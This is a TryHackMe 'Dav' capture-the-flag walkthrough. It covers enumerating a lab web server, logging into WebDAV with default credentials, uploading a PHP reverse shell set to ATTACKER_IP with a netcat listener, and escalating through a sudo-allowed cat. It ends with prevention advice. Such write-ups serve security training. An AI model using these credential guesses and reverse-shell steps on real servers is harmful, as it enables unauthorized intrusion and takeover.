


# TryHackMe - Dav Walkthrough

## Lab Overview

:contentReference[oaicite:0]{index=0} `Dav` is an easy machine focused on:

- Basic enumeration
- Discovering hidden directories
- Understanding WebDAV
- Uploading files through WebDAV
- Gaining a reverse shell
- Basic privilege escalation

---

# What is WebDAV?

WebDAV (Web Distributed Authoring and Versioning) is an extension of HTTP that allows users to:

- Upload files
- Modify files remotely
- Manage web content on a server

A WebDAV-enabled server behaves similarly to a remote file server.

Common dangerous HTTP methods:

```http
PUT
DELETE
MOVE
COPY
```

If misconfigured, attackers may upload malicious files directly to the web server.

---

# Enumeration

Started with a basic Nmap scan.

```bash
nmap 10.10.123.191
```

Result:

```text
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Important observations:

- Only HTTP exposed
- Apache running on Ubuntu
- Default Apache page shown

---

# Directory Enumeration

Used directory fuzzing to discover hidden paths.

Example:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt \
-u http://10.10.123.191/FUZZ
```

Discovered:

```text
/webdav
```

But it required authentication.

---

# Default Credentials Attack

Tried common WebDAV default credentials:

```text
wampp:xampp
webdav:webdav
jigsaw:jigsaw
```

Successful credentials:

```text
wampp:xampp
```

---

# Why This Is Dangerous

The server exposed a writable WebDAV directory protected only by weak default credentials.

Once authenticated, attackers can upload arbitrary files directly to the web root.

This often leads to Remote Code Execution.

---

# Exploiting WebDAV

Used `cadaver`, a command-line WebDAV client.

About cadaver:

- CLI client for WebDAV
- Supports file upload/download
- Useful for exploiting writable WebDAV shares

Connected:

```bash
cadaver http://10.10.123.191/webdav
```

Authenticated using:

```text
wampp:xampp
```

---

# Upload Reverse Shell

Uploaded a PHP reverse shell payload.

Used payload:

:contentReference[oaicite:1]{index=1}

Important modification:

Changed:

```php
$ip = 'ATTACKER_IP';
$port = 4444;
```

to attacker machine IP and listening port.


---

# Why Reverse Shell Works

Apache executes `.php` files server-side.

After uploading the PHP payload:

1. Victim server executes PHP file
2. PHP initiates outbound connection
3. Attacker receives shell access

This converts:

```text
File Upload → Remote Code Execution
```

---

# Get Shell

Started listener:

```bash
nc -lvnp 4444
```

Visited uploaded shell:

```text
http://TARGET/webdav/shell.php
```

Received reverse shell successfully.

---

# Privilege Escalation

Checked sudo permissions:

```bash
sudo -l
```

Observed allowed command involving:

```text
cat
```

Misconfigured sudo permissions can allow reading sensitive files as root.

Used it to retrieve root flag.

---

# Key Learnings

- WebDAV can expose dangerous file upload functionality
- Default credentials are extremely risky
- Writable web directories often lead to RCE
- File upload vulnerabilities become critical when executable files are allowed
- Always enumerate HTTP methods and hidden directories

---

# Security Impact

This type of misconfiguration can lead to:

- Remote Code Execution
- Full server compromise
- Arbitrary file upload
- Sensitive data exposure
- Privilege escalation

---

# Prevention

- Disable WebDAV if unnecessary
- Never use default credentials
- Restrict dangerous HTTP methods:
  
```http
PUT
DELETE
MOVE
```

- Prevent execution inside upload directories
- Use strong authentication
- Monitor file uploads and web logs